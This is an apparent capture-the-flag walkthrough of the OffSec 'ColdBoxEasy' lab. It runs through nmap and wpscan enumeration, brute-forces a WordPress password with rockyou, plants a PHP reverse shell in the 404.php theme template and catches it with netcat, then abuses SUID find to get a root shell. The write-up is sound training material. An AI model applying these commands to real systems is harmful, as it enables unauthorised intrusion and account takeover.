



# ColdBoxEasy

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Fundamental
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
In this lab, you will enumerate a WordPress site, uncover user credentials through brute-forcing, 
and gain initial access using a PHP reverse shell. You will escalate privileges by exploiting an 
SUID binary to obtain root access.
Released: 11 Jan 2023
```

Machine link: [https://portal.offsec.com/machine/coldboxeasy-207264/overview/details](https://portal.offsec.com/machine/coldboxeasy-207264/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ export TARGET_IP=192.168.148.239

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 11:14 CET
Nmap scan report for 192.168.148.239
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds
```

We have two services running:

- Apache httpd 2.4.18 on port 80
- OpenSSH 7.2p2 on port 4512

### Analyse the web service

Next, we analyse the contents of the web server.

Manually browsing to `http://192.168.148.239/` shows a Wordpress blog



Doing some basic web enumeration with nmap, we find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ nmap -v -p80 --script http-enum $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 11:18 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Initiating Ping Scan at 11:18
Scanning 192.168.148.239 [4 ports]
Completed Ping Scan at 11:18, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:18
Completed Parallel DNS resolution of 1 host. at 11:18, 0.01s elapsed
Initiating SYN Stealth Scan at 11:18
Scanning 192.168.148.239 [1 port]
Discovered open port 80/tcp on 192.168.148.239
Completed SYN Stealth Scan at 11:18, 0.07s elapsed (1 total ports)
NSE: Script scanning 192.168.148.239.
Initiating NSE at 11:18
Completed NSE at 11:18, 3.41s elapsed
Nmap scan report for 192.168.148.239
Host is up (0.033s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 4.1.31
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /hidden/: Potentially interesting folder

NSE: Script Post-scanning.
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

Checking out the `/hidden` directory we find the following message

```text
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

So we have three possible user names:

- C0ldd
- hugo
- philip

### Do a wordpress scan

Next, we check the wordpress installation with `wpscan`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ wpscan --url http://$TARGET_IP --enumerate vp,vt --plugins-detection mixed
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.148.239/ [192.168.148.239]
[+] Started: Sun Feb 22 11:27:53 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.148.239/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.148.239/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.148.239/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.148.239/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://192.168.148.239/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.148.239/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://192.168.148.239/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 4.1
 | Style URL: http://192.168.148.239/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.148.239/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating Vulnerable Plugins (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:53 <===========================================================================================================================> (7343 / 7343) 100.00% Time: 00:00:53
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:04 <=============================================================================================================================> (652 / 652) 100.00% Time: 00:00:04
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Feb 22 11:28:57 2026
[+] Requests Done: 8000
[+] Cached Requests: 39
[+] Data Sent: 2.143 MB
[+] Data Received: 1.079 MB
[+] Memory used: 310.18 MB
[+] Elapsed time: 00:01:03
```

But no vulnerable plugins or themes were found.

### Try to bruteforce login to Wordpress

Next, we try to bruteforce the login to Wordpress with rockyou

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ wpscan --url http://$TARGET_IP -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.148.239/ [192.168.148.239]
[+] Started: Sun Feb 22 11:43:58 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.148.239/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.148.239/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.148.239/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.148.239/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://192.168.148.239/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.148.239/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://192.168.148.239/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 4.1
 | Style URL: http://192.168.148.239/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.148.239/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <==============================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                                                               
^Cying hugo / 081586 Time: 00:47:59 <                                                                                                                             > (174154 / 57378791)  0.30%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

[!] No WPScan API Token given, as a result vulnerability data has not been output.                                                                                > (174158 / 57378791)  0.30%  ETA: ??:??:??
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Feb 22 12:32:07 2026
[+] Requests Done: 174357
[+] Cached Requests: 7
[+] Data Sent: 84.022 MB
[+] Data Received: 637.131 MB
[+] Memory used: 317.816 MB
[+] Elapsed time: 00:48:08

Scan Aborted: Canceled by User
```

We have credentials (`c0ldd:9876543210`)!

### Login as C0ldd

Next, we login with `c0ldd:9876543210` on `http://192.168.148.239/wp-login.php`.



Now we can edit a configuration file, such as the 404.php file, to contain a reverse shell.

Navigate to `Apperance` -> `Editor` in the menu to the left and then `404 Template` in the menu to the right



On `http://192.168.148.239/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` we change the contents to Pentestmonkey's [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php), update the IP and port configuration,  and press the `Update File` button.

Then we create a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ nc -lvnp 12345                            
listening on [any] 12345 ...

```

And trigger the reverse shell with `curl`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ curl "http://192.168.148.239/wp-content/themes/twentyfifteen/404.php"

```

### Get a reverse shell

Back at our netcat listener we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.148.239] 41706
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 12:08:38 up 57 min,  0 users,  load average: 1.69, 1.70, 1.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Upgrade and stabilize the shell

Next, we upgrade our shell to a stable TTY shell

```bash
$ which python3
/usr/bin/python3
$ tty
not a tty
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ ^Z
zsh: suspended  nc -lvnp 12345

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/ColdBoxEasy]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 12345

www-data@ColddBox-Easy:/$ export SHELL=bash
www-data@ColddBox-Easy:/$ export TERM=xterm-256color
www-data@ColddBox-Easy:/$ stty rows 200 columns 200
www-data@ColddBox-Easy:/$ tty
/dev/pts/0
www-data@ColddBox-Easy:/$ ^C
www-data@ColddBox-Easy:/$ 
```

### Get the user flag

Now we can search for the user flag

```bash
www-data@ColddBox-Easy:/$ find / -type f -name local.txt 2>/dev/null
/home/c0ldd/local.txt
www-data@ColddBox-Easy:/$ cat /home/c0ldd/local.txt
a<REDACTED>1
www-data@ColddBox-Easy:/$ 
```

### PrivEsc enumeration

We then enumerate the system for privilege escalation opportunities.

We start with checking the home directory

```bash
www-data@ColddBox-Easy:/$ cd /home
www-data@ColddBox-Easy:/home$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Sep 24  2020 .
drwxr-xr-x 23 root  root  4096 Dec 15  2022 ..
drwxr-xr-x  3 c0ldd c0ldd 4096 Dec 19  2022 c0ldd
www-data@ColddBox-Easy:/home$ cd c0ldd/
www-data@ColddBox-Easy:/home/c0ldd$ ls -la
total 28
drwxr-xr-x 3 c0ldd c0ldd 4096 Dec 19  2022 .
drwxr-xr-x 3 root  root  4096 Sep 24  2020 ..
-rw------- 1 c0ldd c0ldd    0 Oct 19  2020 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 Sep 24  2020 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 Oct 14  2020 .bashrc
drwx------ 2 c0ldd c0ldd 4096 Sep 24  2020 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 Sep 24  2020 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 Sep 24  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root  root    33 Feb 22 11:14 local.txt
-rw-rw---- 1 c0ldd c0ldd   53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$
```

But nothing really stands out.

Next, we check for SUID and GUID binaries

```bash
www-data@ColddBox-Easy:/home/c0ldd$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -ls 2> /dev/null
   259674     40 -rwsr-xr-x   1 root     root        40128 Mar 26  2019 /bin/su
   259658     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
   259657     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
   271762     32 -rwsr-xr-x   1 root     root        30800 Jul 12  2016 /bin/fusermount
   259691     28 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /bin/umount
   259647     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /bin/mount
    21407     16 -rwxr-sr-x   1 root     tty         14752 Mar  1  2016 /usr/bin/bsd-write
    22713     40 -rwxr-sr-x   1 root     mlocate     39520 Nov 18  2014 /usr/bin/mlocate
      266     40 -rwsr-xr-x   1 root     root        40432 Mar 26  2019 /usr/bin/chsh
      322     76 -rwsr-xr-x   1 root     root        75304 Mar 26  2019 /usr/bin/gpasswd
      307     24 -rwxr-sr-x   1 root     shadow      22768 Mar 26  2019 /usr/bin/expiry
    23747     24 -rwsr-xr-x   1 root     root        23376 Mar 27  2019 /usr/bin/pkexec
      313    220 -rwsr-xr-x   1 root     root       221768 Feb  8  2016 /usr/bin/find
     3043    428 -rwxr-sr-x   1 root     utmp       434216 Feb 23  2021 /usr/bin/screen
     2137    136 -rwsr-xr-x   1 root     root       136808 Jan 20  2021 /usr/bin/sudo
    21705     36 -rwsr-xr-x   1 root     root        32944 Mar 26  2019 /usr/bin/newgidmap
      261     64 -rwxr-sr-x   1 root     shadow      62336 Mar 26  2019 /usr/bin/chage
    22778    352 -rwxr-sr-x   1 root     ssh        358624 May 27  2020 /usr/bin/ssh-agent
      381     40 -rwsr-xr-x   1 root     root        39904 Mar 26  2019 /usr/bin/newgrp
    23202     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
    21706     36 -rwsr-xr-x   1 root     root        32944 Mar 26  2019 /usr/bin/newuidmap
      264     72 -rwsr-xr-x   1 root     root        71824 Mar 26  2019 /usr/bin/chfn
      275     36 -rwxr-sr-x   1 root     crontab     36080 Apr  5  2016 /usr/bin/crontab
      521     28 -rwxr-sr-x   1 root     tty         27368 Jan 27  2020 /usr/bin/wall
      391     56 -rwsr-xr-x   1 root     root        54256 Mar 26  2019 /usr/bin/passwd
    22793    420 -rwsr-xr-x   1 root     root       428240 May 27  2020 /usr/lib/openssh/ssh-keysign
    26533    112 -rwsr-xr-x   1 root     root       110792 Feb  8  2021 /usr/lib/snapd/snap-confine
   145199     84 -rwsr-xr-x   1 root     root        84120 Apr  9  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    23247     12 -rwxr-sr-x   1 root     utmp        10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
      568     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   147595     16 -rwsr-xr-x   1 root     root        14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   271341     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2300     36 -rwxr-sr-x   1 root     shadow        35632 Oct  1  2020 /sbin/pam_extrausers_chkpwd
     2296     36 -rwxr-sr-x   1 root     shadow        35600 Oct  1  2020 /sbin/unix_chkpwd
www-data@ColddBox-Easy:/home/c0ldd$ 
```

We have [find](https://gtfobins.org/gtfobins/find/) which is a good choice.

### Get a root shell

Now we can get a root shell

```bash
www-data@ColddBox-Easy:/home/c0ldd$ find . -exec /bin/bash -p \; -quit
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.3# 
```

### Get the root flag

Finally, we can get the root flag

```bash
bash-4.3# cd /root
bash-4.3# ls -la
total 40
drwx------  4 root root 4096 Feb 22 11:13 .
drwxr-xr-x 23 root root 4096 Dec 15  2022 ..
-rw-------  1 root root 1186 Mar 31  2025 .bash_history
-rw-r--r--  1 root root    0 Oct 14  2020 .bashrc
drwx------  2 root root 4096 Sep 24  2020 .cache
-rw-------  1 root root  220 Sep 24  2020 .mysql_history
drwxr-xr-x  2 root root 4096 Sep 24  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  863 Mar 31  2025 .viminfo
-rw-r--r--  1 root root   33 Feb 22 11:14 proof.txt
-rw-r--r--  1 root root   49 Sep 24  2020 root.txt
bash-4.3# cat proof.txt
2<REDACTED>c
bash-4.3# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [bash - Linux manual page](https://www.man7.org/linux/man-pages/man1/bash.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [find - GTFOBins](https://gtfobins.org/gtfobins/find/)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [pentestmonkey - php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [which - Linux manual page](https://linux.die.net/man/1/which)
- [WordPress - Wikipedia](https://en.wikipedia.org/wiki/WordPress)
- [WPScan - Documentation](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)
- [WPScan - GitHub](https://github.com/wpscanteam/wpscan)
- [WPScan - Homepage](https://wpscan.com/)
